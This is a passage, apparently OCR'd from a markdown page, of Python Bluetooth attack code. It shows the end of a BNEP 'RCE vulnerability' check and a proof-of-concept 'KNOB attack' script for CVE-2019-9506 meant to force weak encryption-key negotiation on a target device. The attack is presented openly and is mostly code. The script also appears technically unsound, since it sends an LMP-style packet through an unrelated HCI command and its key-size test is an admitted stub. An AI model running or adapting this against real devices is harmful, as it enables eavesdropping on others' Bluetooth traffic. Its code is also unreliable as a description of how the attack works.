```python
        if b'\x01\x02' in response:
            return True, "BNEP setup successful - potential RCE vulnerability"
            
        return False, "BNEP vulnerability not detected"
        
    except Exception as e:
        return False, f"BNEP test failed: {str(e)}"
```

### KNOB Attack Implementation
```python
#!/usr/bin/env python3
"""
KNOB Attack PoC - CVE-2019-9506
Force weak encryption key negotiation
"""

import bluetooth
import struct

def knob_attack(target_mac):
    """Perform KNOB attack to force weak encryption"""
    try:
        # Create HCI socket
        hci_sock = bluetooth.hci_open_dev(0)
        
        # LMP_encryption_key_size_req with 1-byte entropy
        lmp_packet = struct.pack('BBBB', 0x01, 0x10, 0x01, 0x01)
        
        # Send packet during authentication process
        result = bluetooth.hci_send_req(hci_sock, 0x01, 0x0006, lmp_packet)
        
        if result[0] == 0:
            return True, "Weak key negotiation forced"
        else:
            return False, "KNOB attack failed"
            
    except Exception as e:
        return False, f"KNOB attack error: {str(e)}"

def test_encryption_key_size(target_mac):
    """Test the encryption key size used by device"""
    try:
        sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)
        sock.connect((target_mac, 1))
        
        # Query encryption key size (requires connection)
        # This is a simplified version - real implementation needs HCI commands
        
        sock.close()
        return True, "Encryption key size testing completed"
        
    except Exception as e:
        return False, f"Key size test failed: {str(e)}"
```

